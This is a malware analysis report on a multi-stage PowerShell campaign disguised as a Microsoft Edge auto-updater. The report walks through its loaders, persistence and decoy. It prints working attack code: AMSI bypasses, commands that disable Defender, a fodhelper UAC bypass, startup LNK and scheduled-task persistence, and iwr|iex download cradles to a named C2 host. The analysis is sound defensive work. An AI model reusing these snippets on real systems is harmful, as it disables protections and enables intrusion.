




# 1. Executive Summary

**Incident:** "EdgeAutoUpdater" Malware Campaign  
**Verdict:** Malicious (High Severity)  
**Malware Family:** Hybrid Loader / Orchestrator (Deploying Cobalt Strike, XMRig, & Ransomware)

**Overview**
A sophisticated, multi-stage malware campaign was analyzed. The infection masquerades as a "Microsoft Edge Auto Updater" to deceive users and establish persistence. The campaign utilizes a dual-pronged attack strategy: a "Stealth Path" designed for covert surveillance using advanced C2 beacons, and a "Loud Path" designed for mass destruction, monetization, and lateral movement.
# 2. Technical Analysis
## 2.1 File Identification
The analysis began with a PowerShell script file named wix.ps1.

| Attribute     | Details                                                          |
| ------------- | ---------------------------------------------------------------- |
| **Filename**  | wix.ps1                                                          |
| **File Size** | 7,722 bytes                                                      |
| **SHA256**    | C7238E9557509899C535F3BAEAABCBBB11D94EBB76DC5E195CD42336E07BE3E1 |
```powershell
dir .\wix.ps1

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        13-01-2026     12:14           7722 wix.ps1

Get-FileHash .\wix.ps1

Algorithm       Hash
---------       ----
SHA256          C7238E9557509899C535F3BAEAABCBBB11D94EBB76DC5E195CD42336E07BE3E1
```

## 2.2 Stage 1: Initial Loader & Deobfuscation

The file wix.ps1 functions as an initial execution stager. It does not contain clear-text malicious logic but rather carries an encrypted and compressed payload. The script employs a multi-layered obfuscation routine to conceal the next stage of execution.

**Execution Flow:**
1. **Environment Prep:** The script initiates with `[Guid]::NewGuid(); [GC]::Collect()`, likely to alter the memory stack or confuse heuristic engines that rely on specific memory offsets. It includes a `Start-Sleep -m 1 (1 millisecond)`, which is too short for meaningful sandbox evasion but may serve to break execution continuity analysis tools.

2. **String Sanitization:** A large variable $data is defined containing a Base64-like string. The script attempts to sanitize this string by removing a specific junk pattern `(CbiTqcKmNB...NVZG5QR)` using the `-replace` operator. This disrupts static analysis tools attempting to decode the raw Base64 string without cleaning it first.

3. **Decoding Chain:**
    - **Base64:** The sanitized string is converted to bytes.
    - **XOR Decryption:** A bitwise XOR operation is applied to the byte array. The decimal key used is `139 (0x8B)`.
    - **Decompression:** The decrypted byte array is passed to a GzipStream for decompression.

4. **Execution:** The resulting clear-text code is executed in memory using IEX (Invoke-Expression). This is a fileless execution technique, as the second stage never touches the disk in an unencrypted state.
```powershell
& { $null=[Guid]::NewGuid(); [GC]::Collect()|Out-Null; Start-Sleep -m 1;
$jBuwlqIQIxpQtUPOvD=1;
$data = 'lACDi05q7uKJd------snip------wE4Enii4s='
$data = $data -replace 'CbiTqcKmNB------snip------mf7NVZG5QR',''
$bytes = [Convert]::FromBase64String($data)
$bytes = $bytes | % { $_ -bxor 139 }
$ms = New-Object IO.MemoryStream(, $bytes)
$gs = New-Object IO.Compression.GzipStream($ms, [IO.Compression.CompressionMode]::Decompress)
$sr = New-Object IO.StreamReader($gs, [Text.Encoding]::Unicode)
$plain = $sr.ReadToEnd()
$sr.Close(); $gs.Close(); $ms.Close()
IEX $plain }
```
### 2.2.1 Payload Extraction
To analyze the functionality of the hidden payload without executing it, the initial script was intercepted and modified as follow.
```powershell
$jBuwlqIQIxpQtUPOvD=1; $data = 'lACDi0------snip------uwE4Enii4s='
$data = $data -replace 'CbiTqcKmNB------snip------NVZG5QR',''
$bytes = [Convert]::FromBase64String($data)
$bytes = $bytes | % { $_ -bxor 139 }
$ms = New-Object IO.MemoryStream(, $bytes)
$gs = New-Object IO.Compression.GzipStream($ms, [IO.Compression.CompressionMode]::Decompress)
$sr = New-Object IO.StreamReader($gs, [Text.Encoding]::Unicode)
$plain = $sr.ReadToEnd()
$sr.Close(); $gs.Close(); $ms.Close()
$plain | Out-File -FilePath "C:\Users\Profzzor\Desktop\wix\stage2.ps1" -Encoding Unicode
```

## 2.3 Stage 2: System Weakening & Persistence Logic
The decrypted payload (`stage2.ps1`) acts as an orchestration script. Its primary goals are to disable Windows Defender, bypass UAC (User Account Control), and establish persistence for a remote payload.
### 2.3.1 Defense Evasion & System Weakening

The script immediately attempts to neutralize AMSI (Antimalware Scan Interface) and Windows Defender using two distinct methods.

**A. AMSI Bypass (Memory Patching)**  
The script uses Reflection to patch the `amsiSession` and `amsiContext` fields within `System.Management.Automation.AmsiUtils`. By setting these fields to $null or invalid pointers, it prevents PowerShell from sending code to the antivirus engine for scanning.

```powershell
$plain = ([sySTem.TeXt.eNCOdiNg]::UnicOdE.GEtsTrINg([sysTEM.CONVeRT]::fROMbaSe64sTrIng("IwBVAG4Aa------snip------QAzADQAKQA=")))

$plain | Out-File -FilePath "C:\Users\Profzzor\Desktop\wix\wix_1.ps1" -Encoding Unicode
```
Obfuscated
```powershell
#Unknown - Force error 
$vGiUbyI=$null;
$F1x29kfZFuHuszR=[System.Runtime.InteropServices.Marshal]::AllocHGlobal((9076));
$akqoxyku="+[chAr](100)";
[Threading.Thread]::Sleep(402);
[Ref].Assembly.GetType("System.$([chAR](77)+[cHAR](97+92-92)+[CHAR]([ByTE]0x6e)+[cHaR](97+68-68)+[CHAr]([BYTe]0x67)+[cHar](12+89)+[cHAR](109+61-61)+[ChAR](101*85/85)+[ChAR]([bYTe]0x6e)+[cHAR](4+112)).$([CHar]([bYTE]0x41)+[ChaR](117*105/105)+[cHaR]([BytE]0x74)+[Char]([ByTE]0x6f)+[CHaR]([BytE]0x6d)+[CHAr](33+64)+[ChAR]([BytE]0x74)+[ChaR]([BYte]0x69)+[chaR](111)+[CHAr](110+92-92)).$(('ÂmsíÚ'+'tîls').nOrmaLiZE([CHar](70+65-65)+[cHAr]([byte]0x6f)+[chaR]([BYTe]0x72)+[ChAr](109)+[char]([BYTe]0x44)) -replace [CHAr]([BytE]0x5c)+[cHar]([BYTE]0x70)+[chAr]([BytE]0x7b)+[cHAR]([bYte]0x4d)+[char](110*29/29)+[ChaR]([bYtE]0x7d))").GetField("$(('ãmsíSés'+'síôn').noRmalIZE([CHAR](70*46/46)+[CHAR]([bYTe]0x6f)+[CHAR](69+45)+[cHAr](109)+[cHar]([BYTE]0x44)) -replace [Char]([BYTE]0x5c)+[ChAr]([BYte]0x70)+[chAr](123+31-31)+[chaR]([BYTe]0x4d)+[char]([BYtE]0x6e)+[ChAR](125+114-114))", "NonPublic,Static").SetValue($vGiUbyI, $vGiUbyI);
[Ref].Assembly.GetType("System.$([chAR](77)+[cHAR](97+92-92)+[CHAR]([ByTE]0x6e)+[cHaR](97+68-68)+[CHAr]([BYTe]0x67)+[cHar](12+89)+[cHAR](109+61-61)+[ChAR](101*85/85)+[ChAR]([bYTe]0x6e)+[cHAR](4+112)).$([CHar]([bYTE]0x41)+[ChaR](117*105/105)+[cHaR]([BytE]0x74)+[Char]([ByTE]0x6f)+[CHaR]([BytE]0x6d)+[CHAr](33+64)+[ChAR]([BytE]0x74)+[ChaR]([BYte]0x69)+[chaR](111)+[CHAr](110+92-92)).$(('ÂmsíÚ'+'tîls').nOrmaLiZE([CHar](70+65-65)+[cHAr]([byte]0x6f)+[chaR]([BYTe]0x72)+[ChAr](109)+[char]([BYTe]0x44)) -replace [CHAr]([BytE]0x5c)+[cHar]([BYTE]0x70)+[chAr]([BytE]0x7b)+[cHAR]([bYte]0x4d)+[char](110*29/29)+[ChaR]([bYtE]0x7d))").GetField("$([chaR]([byte]0x61)+[CHaR]([BYTE]0x6d)+[CHaR](115)+[cHaR](100+5)+[CHAr](67*59/59)+[cHar]([ByTe]0x6f)+[ChAR]([BytE]0x6e)+[ChaR]([byTE]0x74)+[chAr]([BytE]0x65)+[cHAR]([ByTe]0x78)+[ChaR](104+12))", "NonPublic,Static").SetValue($vGiUbyI, [IntPtr]$F1x29kfZFuHuszR);
$="+('ùx'+'vr'+'ct'+'ê').NORmAlizE([chAr](41+29)+[cHAr](17+94)+[cHar](6+108)+[cHAR]([ByTE]0x6d)+[CHAr]([byte]0x44)) -replace [CHar](22+70)+[chAr]([bytE]0x70)+[Char]([BytE]0x7b)+[chAr](77+55-55)+[cHAr](110*26/26)+[ChaR]([bytE]0x7d)";
[Threading.Thread]::Sleep(1534)
```
Deobfuscated
```powershell
#Unknown - Force error 
$vGiUbyI=$null;
$F1x29kfZFuHuszR=[System.Runtime.InteropServices.Marshal]::AllocHGlobal((9076));
$akqoxyku="+d";
[Threading.Thread]::Sleep(402);
[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils", "NonPublic,Static").SetValue($vGiUbyI, $vGiUbyI);

[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext", "NonPublic,Static").SetValue($vGiUbyI, [IntPtr]$F1x29kfZFuHuszR);

$="+uxvrcte";

[Threading.Thread]::Sleep(1534)
```
**B. Windows Defender Disabling**  
The script issues a series of `Set-MpPreference` commands to turn off all available protections.
- **Real-time Monitoring:** Disabled (`-DisableRealtimeMonitoring $true`)
- **Cloud Protection:** Disabled (`-MAPSReporting 0, -SubmitSamplesConsent 2`)
- **Scanning:** Script scanning, archive scanning, and network scanning are all disabled.
- **SmartScreen:** Registry keys modified to turn off Explorer SmartScreen.
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIntrusionPreventionSystem $true
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableScriptScanning $true
Set-MpPreference -SubmitSamplesConsent 2
Set-MpPreference -MAPSReporting 0
Set-MpPreference -DisableBehaviorMonitoring $true
Set-MpPreference -PUAProtection 0
Set-MpPreference -DisableScanningNetworkFiles $true
Set-MpPreference -DisableArchiveScanning $true
Set-MpPreference -ScanScheduleDay 8
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer" -Name "SmartScreenEnabled" -Value "Off"
```

**C: Redundant AMSI Patching (Clear Text)**
Later in the execution flow, the script repeats the AMSI bypass technique, this time using clear-text variable names ($__m0, $__m1).
```powershell
$__m0 = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)
$__m1 = [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils")
$__f0 = $__m1.GetField("amsiSession", "NonPublic,Static")
$__f1 = $__m1.GetField("amsiContext", "NonPublic,Static")
$__f0.SetValue($null, $null)
$__f1.SetValue($null, [IntPtr]$__m0)
```

### 2.3.2 Operational Logging
The malware establishes a detailed logging mechanism to track its own installation progress. This behavior is somewhat unusual for stealthy malware but provides significant forensic artifacts.
- **Log Location:** `$env:WinDir\Temp\EdgeAutoUpdater-Install.log` (typically `C:\Windows\Temp\...`).
- **Mechanism:** A custom function `Write-DebugLog` timestamps every action (e.g., "Installer started", "Persisted to User startup").
```powershell
param(
    [string]$LogPath = "$env:WinDir\Temp\EdgeAutoUpdater-Install.log"
)
function Write-DebugLog {
    param([string]$Message)
    $ts = Get-Date -Format "yyyy-MM-dd HH:mm:ss"
    Add-Content -Path $LogPath -Value "$ts  DEBUG: $Message"
}
Start-Transcript -Path $LogPath -Append
Write-DebugLog "=== Installer started ==="
```
### 2.3.3 User Enumeration & Persistence

The script employs robust logic to ensure it persists across system reboots, masquerading as a legitimate Microsoft Edge update.

**A. User Profile Discovery**  
Instead of relying solely on standard environment variables, the malware attempts to identify the currently active interactive user.
1. **Explorer Owner:** It checks the owner of the `explorer.exe` process.
2. **Quser Check:** If that fails, it parses the output of the quser command.
```powershell
function Get-ExplorerProfile {
    $explorer = Get-Process explorer -ErrorAction SilentlyContinue | Select-Object -First 1
    if ($explorer) {
        $owner = (Get-WmiObject Win32_Process -Filter "ProcessId=$($explorer.Id)").GetOwner()
        if ($owner.User) {
            $path = "C:\Users\$($owner.User)"
            Write-DebugLog "[Get-ExplorerProfile] Found user='$($owner.User)' Profile='$path'"
            return $path
        }
    }
    Write-DebugLog "[Get-ExplorerProfile] explorer.exe not found or owner missing"
    return $null
}
function Get-QUserProfile {
    $out = quser 2>&1
    Write-DebugLog "[Get-QUserProfile] quser output: $out"
    if ($out -match '>([^\s]+)') {
        $user = $Matches[1]
        $path = "C:\Users\$user"
        Write-DebugLog "[Get-QUserProfile] Found user='$user' Profile='$path'"
        return $path
    }
    Write-DebugLog "[Get-QUserProfile] No interactive user detected"
    return $null
}
```
**B. LNK Masquerading**  
The malware creates shortcut files (.lnk) in the Windows Startup folders.
- **File Name:** `EdgeAutoUpdater.lnk`
- **Icon Disguise:** It sets the icon path to `C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe`, making the shortcut visually indistinguishable from the legitimate browser.
- **Target:** The shortcut executes powershell.exe.
- **Arguments:** `iwr -UseBasicParsing $URL/stage0.ps1 | iex`
    - Note: This "Download Cradle" ensures that every time the user logs in, the latest version of the payload is fetched from the C2 server.
```powershell
$adminStartup = "$env:ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\EdgeAutoUpdater.lnk"
$defaultUserStartup = [Environment]::GetFolderPath("Startup") + "\EdgeAutoUpdater.lnk"
Write-DebugLog "Admin startup: $adminStartup"
Write-DebugLog "Default user startup: $defaultUserStartup"
$userProfile = Get-ExplorerProfile
if (-not $userProfile) { $userProfile = Get-QUserProfile }
if ($userProfile) {
    $resolvedUserStartup = "$userProfile\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\EdgeAutoUpdater.lnk"
    Write-DebugLog "Resolved user startup: $resolvedUserStartup"
} else {
    $resolvedUserStartup = $defaultUserStartup
    Write-DebugLog "Using default user startup path: $resolvedUserStartup"
}
$payloadArgs = '-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -Command "iwr -UseBasicParsing $URL/stage0.ps1 | iex"'
if (Create-LNK -lnkPath $adminStartup -targetPath "powershell.exe" -arguments $payloadArgs) {
    Write-DebugLog "Persisted to Admin startup"
} elseif (Create-LNK -lnkPath $resolvedUserStartup -targetPath "powershell.exe" -arguments $payloadArgs) {
    Write-DebugLog "Persisted to User startup"
} else {
    Write-DebugLog "FAILED to persist to any startup location"
}
```
### 2.3.4 Privilege Escalation (UAC Bypass)
The script performs a privilege check `([Security.Principal.WindowsBuiltInRole]::Administrator)`. If the malware is running with standard privileges, it attempts to elevate itself using a **Fileless UAC Bypass**.

- **Technique:** **Fodhelper Method** (`MITRE ATT&CK T1548.002`).
- **Procedure:**
    1. The script modifies the registry key: `HKCU:\Software\Classes\ms-settings\shell\open\command`.
    2. It sets the DelegateExecute value to an empty string.
    3. It sets the (Default) value to the malicious PowerShell command.
    4. It executes `C:\Windows\System32\fodhelper.exe`.
        
- **Result:** fodhelper.exe is a trusted Windows binary that auto-elevates without a UAC prompt. By hijacking its registry lookups, the malware gains Administrator rights silently.
```powershell
if (-not ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) {
    Write-DebugLog "[FODHELPER] Attempting UAC bypass using fodhelper.exe"
    $regPath = "HKCU:\Software\Classes\ms-settings\shell\open\command"
    try {
        New-Item -Path $regPath -Force | Out-Null
        Set-ItemProperty -Path $regPath -Name "DelegateExecute" -Value "" -Force
        Set-ItemProperty -Path $regPath -Name "(Default)" -Value "powershell.exe $payloadArgs" -Force
        Start-Process "C:\Windows\System32\fodhelper.exe"
        Write-DebugLog "[FODHELPER] fodhelper.exe launched. Elevation should trigger."
        Start-Sleep -Seconds 5
        Remove-Item -Path "HKCU:\Software\Classes\ms-settings" -Recurse -Force
        Write-DebugLog "[FODHELPER] Registry cleaned up"
        exit
    } catch {
        Write-DebugLog "[FODHELPER] ERROR during bypass: $($_.Exception.Message)"
    }
}
$identity = [System.Security.Principal.WindowsIdentity]::GetCurrent()
$principal = New-Object System.Security.Principal.WindowsPrincipal($identity)
$isElevated = $principal.IsInRole([System.Security.Principal.WindowsBuiltInRole]::Administrator)
$isSystem   = $identity.Name -eq 'NT AUTHORITY\SYSTEM'
Write-DebugLog "Current identity=$($identity.Name) Elevated=$isElevated System=$isSystem"
if ($isSystem) {
    Write-DebugLog "SYSTEM context: skipping immediate launch"
} elseif ($isElevated) {
    Write-DebugLog "Elevated context: launching Admin LNK"
    if (Test-Path $adminStartup) {
        Start-Process $adminStartup -WindowStyle Hidden
    } else {
        Write-DebugLog "Admin LNK missing"
    }
} else {
    Write-DebugLog "Standard user context: launching User LNK"
    if (Test-Path $resolvedUserStartup) {
        Start-Process $resolvedUserStartup -WindowStyle Hidden
    } else {
        Write-DebugLog "User LNK missing"
    }
}
```
### 2.3.5 Fallback Mechanisms & Immediate Execution
To guarantee execution, the malware uses a "belt and suspenders" approach.

1. **Scheduled Task:** If LNK creation fails, it attempts to create a Scheduled Task named **"EdgeAutoUpdaterTask"** set to run immediately and daily at 00:00.
2. **Immediate Invocation:** Regardless of whether persistence succeeded, the script immediately triggers the next stage using Start-Process with the web delivery command.
3. **Local LNK:** As a final fallback, it creates a shortcut in the current script directory and launches it.
```powershell
$scriptDir = Split-Path -Parent $MyInvocation.MyCommand.Definition
$localLnk = Join-Path $scriptDir "EdgeAutoUpdater.lnk"
Write-DebugLog "[Fallback] Writing LNK to local path: $localLnk"
Create-LNK -lnkPath $localLnk -targetPath "powershell.exe" -arguments $payloadArgs | Out-Null
Write-DebugLog "[Fallback] Launching local LNK"
if (Test-Path $localLnk) {
    Start-Process $localLnk -WindowStyle Hidden
} else {
    Write-DebugLog "[Fallback] Local LNK missing"
}
Write-DebugLog "[PS1.0] Invoking web delivery stage1 via iwr"
Start-Process "$env:WinDir\System32\WindowsPowerShell\v1.0\powershell.exe" \
    -ArgumentList '-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -Command "iwr -UseBasicParsing $URL/stage0.ps1 | iex"' \
    -WindowStyle Hidden
Write-DebugLog "[SCHTASKS] Registering immediate run fallback task"
try {
    schtasks /Create /F /SC ONCE /TN "EdgeAutoUpdaterTask" /TR "powershell.exe $payloadArgs" /ST 00:00 /RL HIGHEST | Out-Null
    schtasks /Run /TN "EdgeAutoUpdaterTask" | Out-Null
    Write-DebugLog "[SCHTASKS] Scheduled task created and run"
} catch {
    Write-DebugLog "[SCHTASKS] ERROR: $($_.Exception.Message)"
}
Write-DebugLog "=== Installer finished ==="
Stop-Transcript
```
## 2.4 Stage 3: The Downloaded Loader (stage0.ps1)
The file downloaded by the persistence mechanism is not the final payload but another obfuscated loader.
### 2.4.1 Redundant AMSI Bypass 
Before executing its payload, this script attempts to disable AMSI using a third, distinct technique known as the "Matt Graeber Bypass" (Force Error).
```powershell
$a=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils');
$a.GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true);
& { [GC]::Collect()|Out-Null;
$data = '+m7t5YI4gIznGgi5nLb+LPB6WhjMsW/OpYhBIP0JaM------snip------Rw62G5eU='
$data = $data -replace 'Fd9PYqN7zoP1J2J------snip------a7WSLk3cLBlQD7iR',''
$bytes = [Convert]::FromBase64String($data)
$bytes = $bytes | % { $_ -bxor 229 }
$ms = New-Object IO.MemoryStream(, $bytes)
$gs = New-Object IO.Compression.GzipStream($ms, [IO.Compression.CompressionMode]::Decompress)
$sr = New-Object IO.StreamReader($gs, [Text.Encoding]::Unicode)
$plain = $sr.ReadToEnd()
$sr.Close(); $gs.Close(); $ms.Close()
IEX $plain }
```
### 2.4.2 Payload Decryption & Execution
The core logic mirrors the structure of the Stage 1 file (`wix.ps1`), but with different cryptographic keys.
1. **Sanitization:** Removes a junk string (`Fd9PYqN7zo...`) from the variable $data.
2. **Decoding:** Base64 decodes the sanitized string.
3. **Decryption (XOR):**
    - **Key:** `229 (0xE5)`.
4. **Decompression:** Uses `GzipStream` to inflate the payload.
5. **Execution:** Executes the result using `IEX`.
### 2.4.3 Payload Extraction
To analyze the functionality of the hidden payload without executing it, the initial script was intercepted and modified as follow.
```powershell
$data = '+m7t5YI4gIznGgi5nLb+LPB6WhjMsW/OpYhBIP0JaM------snip------Rw62G5eU='
$data = $data -replace 'Fd9PYqN7zoP1J2J------snip------a7WSLk3cLBlQD7iR',''

$bytes = [Convert]::FromBase64String($data)
$bytes = $bytes | % { $_ -bxor 229 }
$ms = New-Object IO.MemoryStream(, $bytes)
$gs = New-Object IO.Compression.GzipStream($ms, [IO.Compression.CompressionMode]::Decompress)
$sr = New-Object IO.StreamReader($gs, [Text.Encoding]::Unicode)
$plain = $sr.ReadToEnd()
$sr.Close(); $gs.Close(); $ms.Close()
$plain | Out-File -FilePath "C:\Users\Profzzor\Desktop\wix\stage0_1.ps1" -Encoding Unicode
```
## 2.5 Stage 4: Deceptive Loader (stage0_1.ps1)
This script serves as the "Social Engineering" and "Persistence" module. It is designed to hide itself, blind the antivirus, distract the user with a fake document, and then set up the final payload.
### 2.5.1 Step 1: Process Hiding (Self-Restart)
- **Code:** `Start-Process ... -WindowStyle Hidden ... "iwr ... fileless-loader.ps1 | iex"`
- **Behavior:** The script immediately spawns a **new** PowerShell process with the `-WindowStyle` Hidden flag. It downloads its own code from the C2 server again.
- **Purpose:** This ensures that if the previous stage left a visible PowerShell window open, this stage immediately moves execution to an invisible background process to avoid alerting the victim.
```powershell
Start-Process "$env:WinDir\System32\WindowsPowerShell\v1.0\powershell.exe" `
    -ArgumentList '-NoProfile -ExecutionPolicy Bypass -Command "iwr -UseBasicParsing https://4bb27f72.thisisnotyourland.pages.dev/fileless-loader.ps1 | iex"' `
    -WindowStyle Hidden
```
### 2.5.2 Step 2: Dual AMSI Bypass

The script attempts to neutralize Windows Defender using two consecutive methods before performing any malicious actions.
1. **Embedded Reflection Bypass:**
    - It decodes a Base64 string and executes it immediately. This patches the amsiContext in memory.
```powershell
$plain = ([sySTem.TeXt.eNCOdiNg]::UnicOdE.GEtsTrINg([sysTEM.CONVeRT]::fROMbaSe64sTrIng("IwBNAGEAdA------snip------A0ACkA")))
$plain | Out-File -FilePath "C:\Users\Profzzor\Desktop\wix\stage0_1_1.ps1" -Encoding Unicode
```
Obfuscated
```powershell
#Matt Graebers second Reflection method 
$MjrZW_1pf11af63SI0=$null;
$qs_svRN1CP20sn="System.$([ChAR](77)+[cHAr](97)+[ChAr]([bYtE]0x6e)+[CHaR]([bYte]0x61)+[Char]([ByTE]0x67)+[chAr](101*4/4)+[CHAR]([BYTe]0x6d)+[ChAR](101)+[ChaR]([BYTe]0x6e)+[cHaR]([BYTE]0x74)).$([chAr](65)+[chaR](117)+[Char](116)+[chaR](111+27-27)+[ChAr](109+33-33)+[cHAR]([ByTE]0x61)+[chaR](116+46-46)+[ChAr]([bytE]0x69)+[cHar]([BytE]0x6f)+[ChaR](110*74/74)).$(('ÃmsîÛtì'+'ls').nOrMALIZE([chAr](70)+[CHaR]([ByTe]0x6f)+[ChAr]([ByTe]0x72)+[ChAr]([bYtE]0x6d)+[Char](2+66)) -replace [Char]([byTe]0x5c)+[chAr]([ByTE]0x70)+[Char]([BYtE]0x7b)+[chAR](77+54-54)+[cHAR](110*83/83)+[chAR]([BYtE]0x7d))";
$hgowddejutnyfjboutnig="+[ChAR](102+45-45)+[ChAr](41+72)+[CHAR]([ByTE]0x78)+[cHaR]([BYTE]0x6c)+[cHAR](97+93-93)+[cHaR]([bYTe]0x6f)+[chaR]([ByTe]0x70)+[cHar](97*26/26)+[char](103*53/53)+[CHAr]([ByTE]0x70)+[chAr](102+14)+[cHAr]([bytE]0x6a)+[CHar](100)+[chAR]([Byte]0x74)+[char]([byte]0x6a)+[cHAR](106*52/52)+[ChAr]([bYTe]0x6e)+[char](121+22-22)+[CHAR]([Byte]0x6d)+[cHaR]([byTe]0x6d)+[cHAR]([bYte]0x6d)+[cHar](105+62-62)";
[Threading.Thread]::Sleep(35);
[Runtime.InteropServices.Marshal]::("$(('Wrí'+'téÌ'+'nt3'+'2').NORMAlIZe([ChAr]([bYte]0x46)+[cHar]([Byte]0x6f)+[ChaR]([BYTE]0x72)+[chAr](109+21-21)+[ChaR](21+47)) -replace [cHAr](92)+[chaR]([BYte]0x70)+[CHaR](32+91)+[char](77)+[CHaR](110*85/85)+[Char](125*38/38))")([Ref].Assembly.GetType($qs_svRN1CP20sn).GetField("$([chaR](97*37/37)+[chAr]([bYtE]0x6d)+[cHAR](1+114)+[chAr](105+86-86)+[CHAr](67+26-26)+[CHaR]([bYtE]0x6f)+[ChaR](110)+[chaR]([bYTE]0x74)+[CHAR]([Byte]0x65)+[cHAr](120)+[char]([bYTE]0x74))",[Reflection.BindingFlags]"NonPublic,Static").GetValue($MjrZW_1pf11af63SI0),0x66e175a1);
$efkyqrxcvs="+('ytõdrmxóîêxyùnõzhé'+'ftcglôlmvsh').norMaliZe([CHAr](17+53)+[CHar]([byTE]0x6f)+[cHar](114+23-23)+[ChAr]([BYTE]0x6d)+[char]([bYTE]0x44)) -replace [CHAR]([bYTe]0x5c)+[char](112+96-96)+[cHaR]([bYte]0x7b)+[chAr](77)+[Char](66+44)+[CHAR](39+86)";
[Threading.Thread]::Sleep(1814)
```
**Deobfuscated**


2. **External Bypass Script:**
    - **Code:** `iwr .../amsibypass.ps1 -useb | iex`
    - **Behavior:** It downloads and executes a secondary, dedicated AMSI bypass script from the C2 server. This redundancy ensures that if the first patch failed (e.g., due to a signature update), the second script attempts to finish the job.
```powershell
iwr https://4bb27f72.thisisnotyourland.pages.dev/amsibypass.ps1 -useb | iex
```
### 2.5.3 Step 3: Social Engineering (The Decoy)
Once the system is blinded, the script deploys a distraction.
- **Decoy:** `John Bradley Resume.pdf`
- **Action:**
    1. Downloads the PDF from the C2 server.
    2. Saves it to the current directory.
    3. Opens it using `Invoke-Item` (launching the default PDF viewer).
- **Impact:** The user sees a legitimate-looking resume open on their screen. This leads them to believe the file they clicked was harmless, effectively masking the malware installation happening in the background.
```powershell
iwr -Uri "https://4bb27f72.thisisnotyourland.pages.dev/John Bradley Resume.pdf" -Outfile 'John Bradley Resume.pdf'
 $pdfPath = ".\John Bradley Resume.pdf"
if (Test-Path $pdfPath) {
    Invoke-Item $pdfPath
    Write-Host "Opened '$pdfPath' in default PDF viewer. Continuing script execution..."
} else {
    Write-Host "Error: '$pdfPath' not found." -ForegroundColor Red
}
```
